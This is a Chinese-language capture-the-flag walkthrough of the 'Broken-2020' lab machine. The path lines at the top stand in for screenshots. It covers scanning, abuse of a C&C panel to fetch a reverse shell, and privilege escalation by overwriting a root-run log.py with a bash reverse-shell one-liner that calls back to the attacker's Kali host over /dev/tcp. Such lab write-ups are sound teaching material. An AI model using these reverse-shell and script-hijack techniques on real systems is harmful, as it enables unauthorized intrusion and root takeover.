










## Broken-2020 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| Broken-2020   | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`



### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache** 服务器



简单查看源码后无异常，但使用扫描工具发现其他路径，访问路径 `http://192.168.1.108/cms/` 得到 **flag1**



继续访问路径 `http://192.168.1.108/cms/cc` 发现存在 C&C server 后台



本以为可能存在命令注入，不过测试后发现可以建立远程连接，并且会请求某一名称脚本



接下来的步骤很明显，只要在 Kali 当前目录上新建该脚本名称，并写入反向 shell 脚本。此外开启 HTTP Server，并在虚拟机上请求即可 getshell

### Getshell



如上图所示，该脚本会建立 bash shell 连接，反向连接 Kali **4455** 端口。在 `/home/alice` 路径下得到 **flag2**

 

此外根据提示知道 *root* 用户会执行脚本清理 Apache 日志，至于执行的哪个脚本，想必就是 `/home/alice/script/log.py`，当然可以通过 **pspy64** 来确认



### 提权

修改 `log.py` 里的内容，建立 shell

```shell
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/192.168.1.112/7788 0>&1'\")" > log.py
chmod +x log.py
```

Kali 上监听 **7788** 端口，在 `/home/alice/backup/` 路径下得到 **flag3**



看来只要将路径名写入 `path.txt` 文件里，`root` 账户就会将备份该路径的内容。结果显而易见，最后的 flag 就在 `/root` 路径下，因此我们将该路径写入 `path.txt` 文件里就会得到 `/root` 路径下的内容



